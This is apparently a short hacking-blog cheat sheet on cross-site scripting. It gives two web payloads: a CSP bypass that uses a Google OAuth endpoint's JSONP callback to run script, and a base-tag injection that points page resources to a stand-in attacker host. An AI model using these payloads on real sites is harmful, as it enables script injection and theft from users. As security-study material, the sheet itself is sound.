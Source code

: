 ```yaml
---
title: XSS(Cross Site Scripting)
author: janger
date: 2023-09-25
category: Web Hacking
layout: post
---
```


## Google JSON API XSS

If the target server is accepting addresses from Google, use the

~~~
Content-Security-Policy: default-src 'self'; script-src *.google.com
~~~

~~~ html
<html>
    <head>...</head>
    <body>    
        <script src="https://accounts.google.com/o/oauth2/revoke?callback=alert(1);"></script>
    </body>
</html>
~~~


## base tag url XSS

~~~ html
<base href="https://attacker.io/">
~~~
